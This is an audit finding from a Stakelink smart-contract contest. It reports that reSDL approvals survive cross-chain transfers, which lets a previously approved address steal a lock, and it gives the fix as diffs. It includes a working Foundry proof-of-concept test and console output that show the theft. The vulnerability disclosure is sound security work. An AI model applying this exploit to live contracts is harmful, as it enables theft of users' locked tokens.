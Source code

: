# Stakelink

Code under review: [2023-12-stakelink](https://github.com/Cyfrin/2023-12-stake-link) (1414 nSLOC)

## [H-01] Token approvals are not revoked when transferring reSDL across chains, leading to stolen funds.
>The official submission can be found on codehawks [here](https://www.codehawks.com/submissions/clqf7mgla0001yeyfah59c674/82)

### Summary
reSDL token approvals are not deleted when transferring reSDL cross-chain, allowing previously approved users to steal a reSDL lock once it's been transferred back to the original chain. 

### Vulnerability Details
Transferring reSDL locks between users is supposed to delete the approvals for that lockId, as new owners likely do not want the previously approved people to still be approved to their lock. This is evident in the NATSPEC of the function `SDLPool::approve`
<details>
<summary>NATSPEC of SDLPool::approve()</summary>

```javascript
    /**
     * @notice approves `_to` to transfer `_lockId` to another address
     * @dev
---> * - approval is revoked on transfer and can also be revoked by approving zero address
     * - reverts if sender is not owner of lock and not an approved operator for the owner
     * - reverts if `_to` is owner of lock
     * - reverts if `_lockId` is invalid
     * @param _to address approved to transfer
     * @param _lockId id of lock
     **/
```
</details>

The above requirement is properly enforced in the `SDLPool::_transfer()` internal function, due to the line:

```delete tokenApprovals[_lockId]```
(Line 464 of SDLPool.sol)

However, the requirement is not held when transferring reSDL tokens cross-chain.

When a user calls `RESDLTokenBridge::transferRESDL` to send a reSDL lock to the secondary chain, 
In `SDLPoolPrimary::handleOutgoingRESDL`, the token approvals for the lock `_lockId` are not deleted.
<details> 
<summary>Code</summary>

```javascript 
    Lock memory lock = locks[_lockId];

    delete locks[_lockId].amount;
    delete lockOwners[_lockId];
    balances[_sender] -= 1;
    // [H] @audit - what about token approvals?
    // The token approvals for reSDL are not deleted when we use the bridge to send reSDL to another chain!

    uint256 totalAmount = lock.amount + lock.boostAmount;
    effectiveBalances[_sender] -= totalAmount;
    effectiveBalances[ccipController] += totalAmount;

    sdlToken.safeTransfer(_sdlReceiver, lock.amount);

    emit OutgoingRESDL(_sender, _lockId);    
```
</details>

Similarly in `SDLPoolSecondary::handleOutgoingRESDL`, tokenApprovals are not deleted on sending reSDL back to the primary chain.

Note that how much ever the lock is transferred in the other chain, the approvals in that chain will constantly be deleted, but the approvals in the original chain remain intact.

### Impact

Since the approvals are not deleted whenever the reSDL token is transferred over to a different chain, the approval will still exist when the token is transferred back to the original chain. Once this happens, the approved user can transfer the lock to themselves, since they have approval to that lockId.

### Proof of Concept

**Summary:**

The following is one example of how the vulnerability can be exploited.

Initial State: initialOwner owns the lock with lockId=1 (the lockId is arbitrary, the vulnerability exists for every lockId possible).

Steps:

1. A user (initialOwner) approves their alt account (initialOwner_Alt), before transferring their reSDL lock to another user (receiverOfLock) on secondary chain
2. The user who just received it on the secondary chain transfers the lock to someone else (otherReceiverOfLock), this only deletes approvals on the secondary chain
3. The otherReceiverOfLock transfers their lock back to the primary chain, with the receiver being their own address.
4. initialOwner_Alt who is still approved calls `primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);` to transfer the lock back to themselves.
 
> Note that the following foundry test may not be immediately runnable on any machine, as it uses a few custom mocks that bypass the need for CCIP but mimic the functionality of the protocol. 

<details><summary>Setting up</summary>

```javascript
contract YourTestContract is Test {

    struct OnRamp {
        uint64 destChainSelector;
        address onRamp;
    }
    struct OffRamp {
        uint64 sourceChainSelector;
        address offRamp;
    }

    uint64 primaryChainSelector = 77;
    uint64 secondaryChainSelector = 78;

    ERC677Token linkToken;
    ERC677Token sdlToken;
    ERC677Token token2;
    WrappedNative wrappedNative;
    LinearBoostController boostController;

    SDLPoolPrimary primarySDL;
    SDLPoolSecondary secondarySDL;

    CCIPTokenPoolMock tokenPool;
    CCIPTokenPoolMock tokenPool2;

    MockRESDLTokenBridge bridgePrimary;
    MockRESDLTokenBridge bridgeSecondary;

    // USERS
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address user3 = makeAddr("3");

    function setUp() public {
        // Deploy ERC677 tokens

        address starterMaster = makeAddr("starterMaster"); // he gets all the supply @ the start
        linkToken = new ERC677Token("Chainlink", "LINK", starterMaster, 1000000000);
        sdlToken = new ERC677Token("SDLName", "SDL", starterMaster, 1000000000);
        token2 = new ERC677Token("Token2", "T2", starterMaster, 1000000000);

        // Deploy other contracts
        wrappedNative = new WrappedNative();
        address armProxy = address(new CCIPArmProxyMock());
        address router = address(new Router(address(wrappedNative), armProxy));


        // TokenPool
        tokenPool = new CCIPTokenPoolMock(address(sdlToken));
        tokenPool2 = new CCIPTokenPoolMock(address(token2));

        address[] memory tokens = new address[](2);
        tokens[0] = address(sdlToken);
        tokens[1] = address(token2);
        address[] memory tokenPools = new address[](2);
        tokenPools[0] = address(tokenPool);
        tokenPools[1] = address(tokenPool2);

        boostController = new LinearBoostController(4 * 365 * 86400, 4);
        
        SDLPoolPrimary primarySDLImplementation = new SDLPoolPrimary();
        SDLPoolSecondary secondarySDLImplementation = new SDLPoolSecondary();
        
        // make proxies
        ERC1967Proxy proxyPrimary = new ERC1967Proxy(address(primarySDLImplementation), "");
        ERC1967Proxy proxySecondary = new ERC1967Proxy(address(secondarySDLImplementation), "");

        // Interface at the proxy address
        primarySDL = SDLPoolPrimary(address(proxyPrimary));
        secondarySDL = SDLPoolSecondary(address(proxySecondary));

        //initialize the implementations
        primarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController));
        secondarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController), 5);
        
        //Pool Controllers
        MockPrimaryController primaryController = new MockPrimaryController(router, address(linkToken), address(sdlToken), address(primarySDL), 10 ether);
        MockSecondaryController secondaryController = new MockSecondaryController(router, address(linkToken), address(sdlToken), address(secondarySDL), 77, makeAddr("4"), 10 ether, '0x');

        // Bridges
        bridgePrimary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(primarySDL), address(primaryController));
        bridgeSecondary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(secondarySDL), address(secondaryController));

        // Setting up primary side
        primaryController.setRESDLTokenBridge(address(bridgePrimary));
        primarySDL.setCCIPController(address(primaryController));

        vm.prank(address(bridgePrimary));
        linkToken.approve(address(bridgePrimary), type(uint256).max);

        bridgePrimary.setExtraArgs(77, '0x11');
        primaryController.addWhitelistedChain(77, user1, '0x', '0x');
        sdlToken.mint(user2, 2000 ether);

        // Setting up secondary side
        secondaryController.setRESDLTokenBridge(address(bridgeSecondary));
        secondarySDL.setCCIPController(address(secondaryController));

        
        // Creating 2 different locks in the primary pool
        vm.startPrank(user2);
        sdlToken.transferAndCall(
        address(primarySDL),
        200 ether,
        abi.encode(uint256(0), uint64(0)));


        sdlToken.transferAndCall(
        address(primarySDL),
        1000 ether,
        abi.encode(uint256(0), uint64(365 * 86400)));

        vm.stopPrank();
    }
}
```
</details>
<details>
<summary>Proof of Code</summary>

```javascript
function test_POC_ApprovalsNotDeleted() public {
    // This shows that approvals in one chain are not deleted when a lock is sent to another chain

    address initialOwner = makeAddr("2");
    address receiverOfLock = makeAddr("3");

    address initialOwner_Alt = makeAddr("2Alt");

    vm.startPrank(initialOwner);
    // Approve the alt account
    primarySDL.approve(initialOwner_Alt, 1);

    // Log the approvals of lockId=1
    address approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    console2.log("SENDING LOCK TO SECONDARY CHAIN\n");
    bridgePrimary.transferRESDL(78, address(bridgeSecondary), receiverOfLock, 1, false);
    vm.stopPrank();

    // Now transfer the lock in the secondary chain
    address otherReceiverOfLock = makeAddr("4");
    vm.startPrank(receiverOfLock);
    console2.log("TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN\n");

    // This deletes the approvals of the lock, but only in the secondary chain
    secondarySDL.transferFrom(receiverOfLock, otherReceiverOfLock, 1);
    vm.stopPrank();
    assertEq(secondarySDL.ownerOf(1), otherReceiverOfLock);

    // Then send it back to themselves on the primary chain
    vm.startPrank(otherReceiverOfLock);
    console2.log("SENDING LOCK BACK TO PRIMARY CHAIN\n");
    bridgeSecondary.transferRESDL(77, address(bridgePrimary), otherReceiverOfLock, 1, false);
    vm.stopPrank();

    // Check that the approvals are still there
    approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    // Check that `otherReceiverOfLock` is still the owner of the lock
    uint256[] memory lockIds = primarySDL.getLockIdsByOwner(otherReceiverOfLock);
    assertEq(lockIds[0], 1);

    // Check that og owner's alt account can transfer it to themselves
    vm.startPrank(initialOwner_Alt);
    console2.log("USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`");
    primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);
    vm.stopPrank();

    // Check that the alt account now owns the lock with lockId=1, effectively stolen from `otherReceiverOfLock`
    lockIds = primarySDL.getLockIdsByOwner(initialOwner_Alt);
    assertEq(lockIds[0], 1);

    console2.log("New owner of lockId=1: %s", primarySDL.ownerOf(1));
}
```
</details>

<details>
<summary> Console Output </summary>

```zsh
Running 1 test for test/PoC/Proofs.t.sol:YourTestContract
[PASS] test_POC_ApprovalsNotDeleted() (gas: 489600)
Logs:
  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  SENDING LOCK TO SECONDARY CHAIN

  TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN

  SENDING LOCK BACK TO PRIMARY CHAIN

  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`
  New owner of lockId=1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.33ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details> 

### Tools Used
Manual Review

### Recommendations
Delete the token approvals whenever reSDL tokens are transferred to another chain.
This will ensure that approved users dont have the ability to transfer reSDL tokens once the tokens have been transferred cross-chain.

In `SDLPoolPrimary::handleOutgoingRESDL`:
<details><summary>SDLPoolPrimary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    )
        external
        onlyCCIPController
        onlyLockOwner(_lockId, _sender)
        updateRewards(_sender)
        updateRewards(ccipController)
        returns (Lock memory)
    {
        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount; 
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;


        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        effectiveBalances[ccipController] += totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount); // @audit - _sdlReceiver is the address of the CCIPController.

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```
</details>

Similarly, in `SDLPoolSecondary::handleOutgoingRESDL`:
<details><summary>SDLPoolSecondary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    ) external onlyCCIPController onlyLockOwner(_lockId, _sender) updateRewards(_sender) returns (Lock memory) {
        if (queuedLockUpdates[_lockId].length != 0) revert CannotTransferWithQueuedUpdates();

        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount;
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;

        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        totalEffectiveBalance -= totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount);

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```

</details>
		
